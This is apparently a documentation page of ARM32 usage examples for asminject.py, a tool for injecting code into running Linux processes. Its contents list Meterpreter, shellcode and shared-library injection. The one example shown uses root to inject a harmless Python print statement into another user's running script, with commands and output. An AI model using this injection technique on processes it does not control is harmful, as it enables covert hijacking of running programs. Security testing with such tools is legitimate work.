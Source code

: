 # asminject.py examples - ARM32 payloads

* [Injecting Python code into a Python 3 process](#injecting-python-code-into-a-python-3-process)
* [Injecting Python code into a Python 2 process](#injecting-python-code-into-a-python-2-process)
* [Injecting PHP code into a PHP process](#injecting-php-code-into-a-php-process)
* [Injecting Ruby code into a Ruby process](#injecting-ruby-code-into-a-ruby-process)
* [Inject Meterpreter into an existing process](#inject-meterpreter-into-an-existing-process)
* [Inject shellcode into a separate thread of an existing process](#inject-shellcode-into-a-separate-thread-of-an-existing-process)
* [Inject a Linux shared library (.so) file into an existing process, like the original dlinject.py](#inject-a-linux-shared-library-so-file-into-an-existing-process-like-the-original-dlinjectpy)
* [Inject a Linux shared library (.so) file into a new thread in an existing process](#inject-a-linux-shared-library-so-file-into-a-new-thread-in-an-existing-process)
* [Create a world-readable copy of a file using only Linux syscalls](#create-a-world-readable-copy-of-a-file-using-only-linux-syscalls)
* [Create a copy of a file using buffered read/write libc calls](#create-a-copy-of-a-file-using-buffered-read/write-libc-calls)

## Injecting Python code into a Python 3 process

Terminal 1:

```
pi@bt-minion1:~/asminject/practice $ python3 ./python_loop.py

2022-05-16T22:16:18.425058 - Loop count 0
2022-05-16T22:16:23.430401 - Loop count 1
```

Terminal 2:

```
# ps auxww | grep python

pi       26611  1.8  0.8  14372  7160 pts/0    S+   15:16   0:00 python3 ./python_loop.py

# ./get_relative_offsets.sh /usr/bin/python3.7 > relative_offsets-python3.7.txt

# python3 ./asminject.py 26611 execute_python_code.s --arch arm32 --relative-offsets relative_offsets-python3.7.txt --non-pic-binary "/usr/bin/python.*" --stop-method "slow" --var pythoncode "print('injected python code');"

...omitted for brevity...
[*] Handling '/usr/bin/python3.7' as non-PIC binary
...omitted for brevity...
[*] Restoring original memory content
[+] Done!
```

Back in terminal 1:

```
2022-05-16T22:18:08.541095 - Loop count 22
injected python code
2022-05-16T22:18:17.547089 - Loop count 23
```
